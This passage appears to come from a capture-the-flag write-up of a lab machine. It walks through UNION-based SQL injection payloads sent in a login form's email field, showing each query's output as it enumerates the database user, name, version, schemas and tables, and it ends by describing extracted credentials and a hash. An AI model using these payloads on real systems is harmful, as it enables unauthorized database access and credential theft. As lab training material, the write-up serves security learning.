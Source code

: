 Now that I know the injection is working, look in the **body** of the **Response** to show the results of the queries and find it. Now I use other injections, to get the user, name, database version. With other injections a little more complex I get the database and the tables, which are many, so it is better to list them one by one.

```sql
email=oldboy%40oldb.htb'+union+select+1,2,3,4--+-&password=oldboy123
# Welcome oldboy4
email=oldboy%40oldb.htb'+union+select+1,2,3,user()--+-&password=oldboy123
# Welcome oldboymain_admin@localhost
email=oldboy%40oldb.htb'+union+select+1,2,3,database()--+-&password=oldboy123
# Welcome oldboymain
email=oldboy%40oldb.htb'+union+select+1,2,3,version()--+-&password=oldboy123
# Welcome oldboy8.0.27
email=oldboy%40oldb.htb'+union+select+1,2,3,schema_name+from+information_schema.schemata--+-&password=oldboy
# Welcome oldboyinformation_schemamain
email=oldboy%40oldb.htb'+union+select+1,2,3,table_name+from+information_schema.tables--+-&password=oldboy123
# ....... so many!!
email=oldboy%40oldb.htb'+union+select+1,2,3,table_name+from+information_schema.tables+limit+0,1--+-&password=oldboy123
email=oldboy%40oldb.htb'+union+select+1,2,3,table_name+from+information_schema.tables+limit+1,1--+-&password=oldboy123
# Welcome oldboyADMINISTRABLE_ROLE_AUTHORIZATIONS
```

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_25.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_28.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_29.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I keep injecting malicious queries to get more information from the **main** database, I find the tables and then the columns that I think are the most important to access the machine, I find credentials that are the username and a hash. But if I try to know the type of hash that is with `hashid` or with `hash-identifier` it does not recognize it, another thing that I can observe at the time of obtaining the values of the columns, is that there are letters that were suppressed, something makes me think that `tr` is doing something strange.
